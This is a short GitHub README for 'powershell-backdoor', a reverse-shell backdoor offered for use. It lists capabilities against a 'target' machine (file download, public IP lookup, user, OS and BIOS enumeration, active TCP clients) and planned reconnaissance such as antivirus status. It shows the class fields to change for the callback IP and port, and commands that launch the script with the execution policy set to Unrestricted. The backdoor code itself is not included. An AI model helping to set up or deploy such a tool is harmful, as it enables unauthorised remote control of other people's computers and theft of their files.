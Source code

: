 # powershell-backdoor
A simple Powershell Reverse Backdoor

# To Do / Features

[+] Download Files from remote system
[+] Fetch target computers public IP address
[+] List local users
[+] Get OS Information
[+] Get BIOS Information
[+] Get Active TCP Clients

[-] Find Intresting Files
[-] Find Writeable Directories
[-] Get Startup Apps
[-] Get Anti-Virus Status
[-] Get Update Status

# Setup
Find the class Backdoor, and change the following lines 
```powershell
class Backdoor {
  # Change this to the correct ip/port
  [string]$ipAddress = "127.0.0.1"
  [int]$port = 4444
```

# Execution
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```
